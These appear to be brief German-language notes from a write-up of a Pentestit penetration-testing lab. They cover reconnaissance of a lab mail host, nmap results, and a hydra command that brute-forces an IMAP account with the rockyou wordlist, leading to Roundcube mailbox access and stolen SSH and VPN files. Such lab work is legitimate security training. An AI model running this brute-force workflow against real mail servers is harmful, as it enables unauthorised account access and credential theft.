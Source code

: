 # Lab 14

https://lab.pentestit.ru/pentestlabs/14
Tools: Debian 10, nmap,wpscan,dirb,Metasploit,hydra, rockyou.txt

Gateways: 
  * 192.168.101.14
  * 192.168.101.15
  
## Mail - Token 

Host: 192.168.101.14

- in /etc/hosts eintragen: "192.168.101.14 site.test.lab"
- Mailadressen auf http://site.test.lab:
  * sidorov@test.lab
  * ivanov@test.lab
  * petrov@test.lab (IT)
  * support@test.lab
- Portscan mit nmap: 
  * 80/tcp   open  http    nginx 1.18.0
  * 143/tcp  open  imap    Dovecot imapd
  * 8080/tcp open  http    nginx (Roundcube!)
- hydra site.test.lab imap -l support@test.lab -P rockyou.txt
  => pwd="PASSWORD"
  => Login in Roundcube (http://site.test.lab:8080)
  => Mailbox: Mail-Token, SSH-Key (ivanov), client.jar (dev), vpn.zip (gagarin)

